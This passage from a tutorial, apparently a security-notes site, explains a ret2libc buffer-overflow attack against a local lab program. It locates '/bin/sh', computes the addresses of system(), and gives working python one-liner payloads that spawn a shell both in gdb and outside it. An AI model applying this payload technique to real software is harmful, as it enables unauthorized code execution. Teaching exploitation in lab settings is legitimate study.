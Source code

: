 In the above screenshot, we can see that at `0xbffffeea` we have the string `SHELL=/bin/sh`. Since we only need the address of the string `/bin/sh` \(without the `SHELL=` bit in front, which is 6 characters long\), we know that `0xbffffeea + 6` will give us the exact location we are looking for, which is `0xBFFFFEF0`:

![/bin/sh as an environment variable inside the vulnerable program at 0xBFFFFEF0](../../../.gitbook/assets/image%20%28850%29.png)

### Find String in gdb-peda

Worth remembering, that we can look for the required string using gdb-peda like so:

```text
find "/bin/sh"
```

![/bin/sh can be seen in multiple locations in the vulnerable program](../../../.gitbook/assets/image%20%28913%29.png)

## Exploiting

Assuming we need to send 16 bytes of garbage to the vulnerable program before we can overwrite its return address, and make it jump to `system()` \(located at `0xb7e13870`, expressed as `\x70\x38\xe1\xb7` due to little-endianness\), which will execute `/bin/sh` that's present in  `0xb7f52968` \(expressed as `\x68\x29\xf5\xb7`\), the payload in a general form looks like this:

```csharp
payload = A*16 + address of system() + return address for system() + address of "/bin/sh"
```

...and when variables are filled in with correct memory addresses, the final exploit looks like this:

```c
r `python -c 'print("A"*16 + "\x70\x38\xe1\xb7" + "\x30\x6c\xe0\xb7" + "\x68\x29\xf5\xb7")'`
```

Once executed, we can observe how `/bin/sh` gets executed:

![Vulnerable program spawns a /bin/sh shell](../../../.gitbook/assets/image%20%28842%29.png)

Let's see if the exploit works outside gdb:

{% hint style="warning" %}
Addresses of `system()`, `exit()` and `/bin/sh` used in the below payload are different to those captured in earlier screenshots due to a rebooted VM.
{% endhint %}

```python
./vulnerable `python -c 'print("A"*16 + "\x40\xe0\xe0\xb7" + "\x90\xb3\xf0\xb7" + "\x3c\x53\xf5\xb7")'`
```

![Once the vulnerable program is exploited, it spawns a /bin/sh](../../../.gitbook/assets/exploit-outside-gdb.gif)

## References
